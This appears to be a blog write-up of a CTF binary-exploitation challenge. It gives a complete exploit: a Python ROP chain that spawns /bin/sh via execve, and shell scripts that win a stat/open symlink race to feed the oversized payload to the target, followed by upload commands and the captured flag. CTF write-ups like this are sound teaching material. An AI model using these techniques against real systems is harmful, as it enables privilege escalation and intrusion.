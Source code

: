 ```yaml
---
excerpt_separator: <!--end_excerpt-->
---
```


Hi,

I'm member of Pwnium tunisian CTF team. We were ranked #31 in this CTF ! 
Nice rank for a team of 2 members right ?

I hope we will do better next CTF ;)

The binary file takes a filename as argument and checks if the file size is less than 4096 then dumps its content to a buffer otherwise the program prints an error message.

Using GDB let's try to let the program accept a big filesize. To do this I changed the value returned by the check_size function to 1.

```bash
(python -c 'print "A"*4200') > /tmp/big
gdb pwn
gdb-peda$ b *0x08048F1A
gdb-peda$ r /tmp/big
gdb-peda$ set $eax=1
gdb-peda$ c
Stopped reason: SIGSEGV
0x41414141 in ?? ()
gdb-peda$ i r eip
eip 0x41414141 0x41414141
```

<!--end_excerpt-->

Great we have a segmentation fault. 4128 bytes is enough to overflow the return address.

The stack is not executable.

```bash
gdb-peda$ vmmap stack
Start      End        Perm Name
0xfffdd000 0xffffe000 rw-p [stack]
```

  
The system and execve does not exist in the binary so we can't do a big thing with Ret2libc.

```bash
readelf -s pwn | grep system
   702: 080d76e0    36 OBJECT  LOCAL  DEFAULT   10 system_dirs
   703: 080d76cc    16 OBJECT  LOCAL  DEFAULT   10 system_dirs_len
readelf -s pwn | grep exec
   890: 080bc800  2311 FUNC    LOCAL  DEFAULT    6 execute_cfa_program
   894: 080bd940  1884 FUNC    LOCAL  DEFAULT    6 execute_stack_op
  1186: 0809e580    88 FUNC    GLOBAL DEFAULT    6 _dl_make_stack_executable
  2209: 080ee9f4     4 OBJECT  GLOBAL DEFAULT   24 _dl_make_stack_executable
```

_dl_make_stack_executable is an interesting function and can be used to mark the stack as executable but I will do the job simpler.

Time for ROP ;)

The binary is statically linked with libc so there is a big probability to hit with a ROP chain to call execv syscall. I used ROPgadget to generate a rop chain. By testing it I got SIGSEGV at 0x00000000 and this because the gadgets contain NULL byte.

xor eax, eax; ret gadgets are located in offssets having NULL bytes. For this reason I had to manually resolve this issue. To go further I replaced xor eax eax; ret gadget with the following 2 gadgets mov eax, 0xffffffff; ret; inc eax; ret this will overflow the EAX register and the value will be 0.

  
The final ropchain I made was the following:


```python
from struct import pack

# Padding goes here
p = "A"*4124

p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '/bin'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee064) # @ .data + 4
p += pack('<I', 0x080beb26) # pop eax ; ret
p += '//sh'
p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret  -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0809dead) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0x080481d1) # pop ebx ; ret
p += pack('<I', 0x080ee060) # @ .data
p += pack('<I', 0x08072731) # pop ecx ; pop ebx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
p += pack('<I', 0x080ee060) # padding without overwrite ebx
p += pack('<I', 0x0807270a) # pop edx ; ret
p += pack('<I', 0x080ee068) # @ .data + 8
#p += pack('<I', 0x08054700) # xor eax, eax ; ret -> Issue here

p += pack('<I', 0x0804fc64)
p += pack('<I', 0x0807f15f)

p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x0807f15f) # inc eax ; ret
p += pack('<I', 0x08049501) # int 0x80
p += pack('<I', 0xdeadbeef) # deadbeef

f = open('/tmp/payload','wb')
f.write(p)
f.close()
```

Now how to let the program accept the created payload ? The program uses the stat() function to read the file size. This let me think in Race Condition. The idea is to provide a symlink to a small file at the begining and then after the program executes the stat() fucntion and before executing the open() function I point the symlink to the payload (big file). To do this I used the following 2 scripts:

  
race1.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
cp /tmp/small /tmp/flag
rm /tmp/flag
ln -s /tmp/payload /tmp/flag
rm /tmp/a
done
```

race2.sh file

```bash
#!/bin/sh
for i in `seq 10000`
do
/home/chall/pwn /tmp/flag
done
```

Copy all the necessary files to the server using SCP.

```bash
scp  -P 55552 /tmp/payload chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race1.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/race2.sh chall@securefilereader.quals.nuitduhack.com:/tmp
scp  -P 55552 /tmp/small chall@securefilereader.quals.nuitduhack.com:/tmp

```

Put all stuffs togther

```
cd /tmp
(sh race1.sh &) && sh race2.sh
```


And after few seconds you get a shell for you and your family for free :D

  

```bash
$ id
uid=1001(chall) gid=1001(chall) egid=1000(chall_pwned) groups=1000(chall_pwned),1001(chall)
$ cat /home/chall/flag
rUN!RuN$RUn!Y0U$W1N_TH3_R4c3
$
```

That's all !
